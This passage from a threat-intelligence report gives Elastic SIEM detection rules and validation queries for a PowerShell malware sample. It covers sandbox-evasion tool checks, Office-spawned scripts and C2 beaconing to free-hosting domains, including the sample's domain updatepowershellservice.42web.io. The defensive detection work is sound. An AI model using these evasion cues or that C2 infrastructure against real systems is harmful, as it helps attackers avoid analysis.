"https://attack.mitre.org/techniques/T1059/005/"
],
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0002", "name": "Execution", "reference":
"https://attack.mitre.org/tactics/TA0002/" },
"technique": [
{ "id": "T1059", "name": "Command and Scripting Interpreter",
"reference": "https://attack.mitre.org/techniques/T1059/",
"subtechnique": [
{ "id": "T1059.005", "name": "Visual Basic", "reference":
"https://attack.mitre.org/techniques/T1059/005/" }
]
}
]
},
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0001", "name": "Initial Access", "reference":
"https://attack.mitre.org/tactics/TA0001/" },
"technique": [
{ "id": "T1566", "name": "Phishing", "reference":
"https://attack.mitre.org/techniques/T1566/",
"subtechnique": [
{ "id": "T1566.001", "name": "Spearphishing Attachment", "reference":
"https://attack.mitre.org/techniques/T1566/001/" }
]
}
]
}
],
"false_positives": [
"Office automation, custom add-ins, or document templates that
legitimately generate scripts. Tune by excluding known internal template
paths or trusted add-in working directories."
]
}
Validation query (Figure 15):
event.type : ("creation" or "change") and process.name : ("WINWORD.EXE" or "EXCEL.EXE" or "POWERPNT.EXE" or "OUTLOOK.EXE") and file.extension : ("ps1" or "js" or "vbs" or "hta" or "exe" or "dll")
This covers Gap 5, the Invoke-EnvironmentCheck routine that enumerated processes against a hardcoded list of VM, debugger, and forensic tools and exited if any matched. This is the behavior that suppressed the first detonation, and it is one of the most distinctive signatures of the sample. It cannot be detected from process command lines alone, because the tool names live inside the decoded script body. It requires PowerShell script block logging (Event ID 4104) to be enabled.

Figure 16: Elastic SIEM Validation of Rule 5
{
"rule_id": "c8d3f1a6-2e74-4b90-8f1c-6a9e0d3b7c25",
"name": "PowerShell Script Enumerating Analysis and Virtualization
Tooling",
"description": "Detects PowerShell script content that enumerates
running processes and references the names of virtualisation, debugging,
sandbox, or forensic analysis tools. This is characteristic of
environment-aware loaders that abort execution when analysis tooling is
detected. PREREQUISITE: This rule depends on PowerShell Script Block
Logging (Event ID 4104) being enabled on endpoints and ingested into
Elastic SIEM via the logs-windows.powershell_operational-* data stream.
It will not generate alerts until that logging is in place, because the
screened tool names exist only within the decoded script body and are
not visible in process command lines.",
"type": "eql",
"language": "eql",
"index": ["logs-windows.powershell_operational-*"],
"query": "any where event.code == "4104" and
powershell.file.script_block_text : ("*Get-Process*",
"*Get-CimInstance*", "*Get-WmiObject*") and
powershell.file.script_block_text : ("*vboxservice*",
"*vmwaretray*", "*vmtoolsd*", "*x64dbg*", "*x32dbg*",
"*ollydbg*", "*windbg*", "*dnspy*", "*ida64*", "*wireshark*",
"*tshark*", "*procmon*", "*procexp*", "*sysmon*", "*fiddler*",
"*pestudio*", "*volatility*", "*processhacker*",
"*autoruns*")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"author": ["V0lundr"],
"license": "Internal",
"version": 1,
"tags": ["CTI", "Defense Evasion", "Discovery", "Sandbox Evasion",
"Tactic: Defense Evasion", "Data Source: PowerShell Logs", "Requires:
Script Block Logging"],
"references": [
"https://attack.mitre.org/techniques/T1497/001/",
"https://attack.mitre.org/techniques/T1518/001/",
"https://attack.mitre.org/techniques/T1057/"
],
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0005", "name": "Defense Evasion", "reference":
"https://attack.mitre.org/tactics/TA0005/" },
"technique": [
{ "id": "T1497", "name": "Virtualization/Sandbox Evasion",
"reference": "https://attack.mitre.org/techniques/T1497/",
"subtechnique": [
{ "id": "T1497.001", "name": "System Checks", "reference":
"https://attack.mitre.org/techniques/T1497/001/" }
]
}
]
},
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0007", "name": "Discovery", "reference":
"https://attack.mitre.org/tactics/TA0007/" },
"technique": [
{ "id": "T1518", "name": "Software Discovery", "reference":
"https://attack.mitre.org/techniques/T1518/",
"subtechnique": [
{ "id": "T1518.001", "name": "Security Software Discovery",
"reference": "https://attack.mitre.org/techniques/T1518/001/" }
]
}
]
}
],
"false_positives": [
"Endpoint inventory scripts, asset management tooling, or security
software that legitimately enumerates installed analysis tools. Tune by
allowlisting known administrative script paths or signed script
signers."
]
}
Validation query (Figure 16):
event.code : "4104" and powershell.file.script_block_text : ("vboxservice" or "x64dbg" or "wireshark" or "sysmon" or "procmon" or "fiddler" or "volatility" or "pestudio")
This covers Gap 6, the Stage 3 beacon to updatepowershellservice.42web.io. It keys on a script interpreter resolving or connecting to domains on free web hosting and dynamic DNS providers, which legitimate enterprise software almost never does from an interpreter process.

Figure 17: Elastic SIEM Validation of Rule 6
{
"rule_id": "d4a9b2e8-5c16-4f73-9b2d-0e8f1c7a6d49",
"name": "Script Interpreter Connecting to Free Hosting or Dynamic DNS
Infrastructure",
"description": "Detects a script interpreter (PowerShell, Windows
Script Host, mshta) resolving or connecting to domains hosted on free
web hosting or dynamic DNS providers. Threat actors frequently stage
command and control on free hosting such as the InfinityFree family
(42web.io, epizy.com, infinityfreeapp.com) to avoid registration and
infrastructure costs. Legitimate enterprise software rarely contacts
such providers from a scripting interpreter. Consider pairing this rule
with a beaconing analytic to flag periodic connections to the same
destination.",
"type": "eql",
"language": "eql",
"index": ["logs-endpoint.events.network-*"],
"query": "network where event.type == "start" and process.name in
("powershell.exe", "pwsh.exe", "cscript.exe", "wscript.exe",
"mshta.exe", "conhost.exe", "rundll32.exe") and dns.question.name
: ("*.42web.io", "*.epizy.com", "*.infinityfreeapp.com",
"*.rf.gd", "*.great-site.net", "*.000webhostapp.com",
"*.duckdns.org", "*.serveo.net", "*.ngrok.io",
"*.ngrok-free.app", "*.trycloudflare.com")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"author": ["V0lundr"],
"license": "Internal",
"version": 1,
"tags": ["CTI", "Command and Control", "C2", "Free Hosting",
"Tactic: Command and Control", "Data Source: Elastic Defend"],
"references": [
"https://attack.mitre.org/techniques/T1071/001/",
"https://attack.mitre.org/techniques/T1102/"
],
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0011", "name": "Command and Control",
"reference": "https://attack.mitre.org/tactics/TA0011/" },
"technique": [
{ "id": "T1071", "name": "Application Layer Protocol", "reference":
"https://attack.mitre.org/techniques/T1071/",
"subtechnique": [
{ "id": "T1071.001", "name": "Web Protocols", "reference":
"https://attack.mitre.org/techniques/T1071/001/" }
]
}
]
}
],
"false_positives": [
"Developers or administrators using ngrok, Cloudflare tunnels, or
similar services for legitimate testing. Tune by allowlisting known
internal users or specific tunnel subdomains."
]
}
Validation Query (Figure 17):
process.name : ("powershell.exe" or "cscript.exe" or "wscript.exe" or "conhost.exe") and dns.question.name : (*42web.io or *infinityfreeapp.com or *epizy.com or *duckdns.org or *serveo.net or *ngrok*)
Note on rule durability: This rule keys on a finite list of free hosting and dynamic DNS providers, which makes it a low-cost enrichment signal rather than a durable control. It will catch the reuse of known free-hosting infrastructure with very few false positives, but it will not fire if the threat actor moves to a provider absent from the list, registers a dedicated domain, or connects directly to a hardcoded IP address. The list should therefore be maintained as an externalised value list rather than hardcoded in the rule, so it can be updated without redeployment. More importantly, this detection should be treated as secondary to a behavioural rule that flags any script interpreter making an outbound connection to a destination outside a known-good allowlist, which remains valid regardless of the infrastructure the actor chooses, and to a beaconing analytic that identifies periodic connections to the same destination irrespective of domain or address. Used together, these three layers provide defense in depth, where the domain list adds context and the behavioral and beaconing detections provide the coverage that survives infrastructure rotation.